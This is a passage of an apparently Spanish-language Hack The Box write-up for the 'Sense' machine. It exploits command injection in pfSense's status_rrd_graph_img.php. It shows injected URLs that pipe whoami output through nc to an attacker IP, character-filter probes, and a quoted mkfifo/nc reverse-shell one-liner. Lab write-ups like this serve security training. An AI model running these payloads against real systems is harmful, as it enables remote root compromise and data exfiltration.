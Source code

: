 Uno que ya nos debería llamar la atención sería para el recurso `status_rrd_graph_img.php`; pero en vez de ejecutar el exploit y ya, vamos a ver que hace y tratar de replicarlo para acomodarlo como nosotros querramos.

Vemos que se aprovecha del recurso `/status_rrd_graph_img.php` y agrega los parámetros `?database=queues;` y posterior inyectamos los comandos que queramos. Así que vamos a validar.

![""](/assets/images/htb-sense/sense-web3.png)

Nos dice que no se puede mostrar la imagen, pero la web tardó 5 segundos en responder; por lo tanto tenemos una vía potencial de ejcutar comandos. También podríamos validar haciendo un `whoami` y mandando la respueta por `nc`:

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;whoami | nc 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 50594
root
```

Ahora vamos a tratar de entablarnos una reverse shell; sin embargo, vemos que no podemos. Así que vamos a ver si existen caracteres que a la máquina no le gusta.

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo "a" | nc 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 32368
a
```

Recibimos las letras, vamos con caracteres especiales:

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo "-" | nc 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

No recibimos nada, entonces al servidor no le gusta el "-" y los más seguro es que existan otros caracteres que no le gusten. Por lo tanto, vamos a ocupar el comando `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f` y validar los caracteres especiales, en este caso **/**, **;**, **\|**, **>** y **&**. Para trabajar un poco más cómodos, podriamos hacer uso de **Burp Suite** en la sección del **Repeater**.
